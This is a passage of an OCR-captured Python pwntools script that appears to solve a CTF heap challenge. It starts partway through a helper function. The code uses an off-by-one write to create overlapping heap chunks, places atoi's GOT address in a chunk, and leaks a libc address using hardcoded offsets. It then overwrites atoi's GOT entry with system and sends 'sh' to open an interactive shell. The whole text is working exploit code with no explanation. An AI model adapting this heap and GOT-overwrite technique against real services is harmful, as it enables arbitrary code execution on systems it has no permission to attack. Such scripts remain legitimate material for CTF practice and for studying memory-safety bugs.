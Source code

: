 ```python
    r.sendline(context)

def edit(index, context):
    r.recvuntil('Your choice :')
    r.sendline('2')
    r.recvuntil('Index :')
    r.sendline(str(index))
    r.recvuntil('Content of heap :')
    r.sendline(context)


def show(index):
    r.recvuntil('Your choice :')
    r.sendline('3')
    r.recvuntil('Index :')
    r.sendline(str(index))
    
def delete(index):
    r.recvuntil('Your choice :')
    r.sendline('4')
    r.recvuntil('Index :')
    r.sendline(str(index)) 

create(0x28, 'a'*0x28) #0
create(0x10, 'b'*0x10) #1
# off-by-one
edit(0, 'a'*0x28+'\x41')
delete(1)

# overlap chunk, write atoi_got
p = 'a'*16 + p64(0) + p64(0x31) + p64(0x30) + p64(elf.got['atoi']) 
create(0x30, p) #1

# leak libc
show(1) 
r.recvuntil('Content : ')
libc_addr = u64(r.recv(6).ljust(8, '\x00')) - 0x36e90 # 0x36e90=atoi_off
log.success('libc_addr ======> {:x}'.format(libc_addr))
system_addr = libc_addr + 0x453a0

# overwrite atoi_got
edit(1, p64(system_addr))

r.recvuntil('Your choice :')
r.sendline('sh')
# r.sendline('$0') # 新学到的姿势

r.interactive()
```

